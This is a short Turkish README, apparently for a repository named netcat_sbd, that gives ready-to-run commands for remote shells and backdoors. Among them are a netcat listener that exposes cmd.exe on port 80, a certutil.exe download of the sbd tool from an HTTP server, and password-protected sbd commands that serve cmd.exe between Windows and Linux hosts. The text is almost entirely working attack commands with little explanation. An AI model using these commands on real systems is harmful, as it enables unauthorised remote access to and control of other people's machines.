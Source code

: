 # netcat_sbd
# NETCAT İLE REVERSE SHELL
Kali Linux : netcat -vvn <ip> <port>
Windows  : netcat.exe -lvp 80 -e cmd.exe

Netcat herhangi bir şifreleme ve IP kısıtlaması gibi bir işlem yapmadığı için tehlikelidir
Bu yüzden netcat'in ssl ve ip kısıtlaması kullanılamalıdır

# SBD (Secure Backdoor)
Şifrel SSL backdooru ve -k parametresi ile şifre verme.

Dosya aktarma certutil.exe --urlcache -f http://192.168.1.100:8000/sbd.zip sbd.zip

Windows :sbd.exe -lvp 80 -k azat -e cmd.exe
Linux      :sbd -vnn 192.168.1.106 80 -k azat 
